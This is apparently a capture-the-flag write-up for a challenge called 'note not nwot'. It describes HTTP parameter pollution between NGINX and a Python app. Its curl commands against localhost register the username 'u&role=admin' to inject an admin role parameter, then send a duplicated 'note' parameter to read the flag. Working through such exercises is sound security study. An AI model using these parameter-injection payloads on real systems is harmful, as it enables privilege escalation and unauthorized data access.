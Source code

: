 # note not nwot

There are HTTP parameter pollution vulnerabilities between NGINX and python application. Also we can inject the query parameters using username when the python application send request to the golang application.

1. Register user
```
curl --location 'http://localhost:1234/api/register' \
    --form 'username="u&role=admin"' \
    --form 'password="secret"'
```

2. Login to get the auth token
```
curl --location 'http://localhost:1234/api/login' \
    --form 'username="u&role=admin"' \
    --form 'password="secret"'
```

3. Get the flag
```
curl --location 'http://localhost:1234/api/notes?note=fake&note=flag' \
    --header 'Authorization: Bearer <AUTH TOKEN>'
```

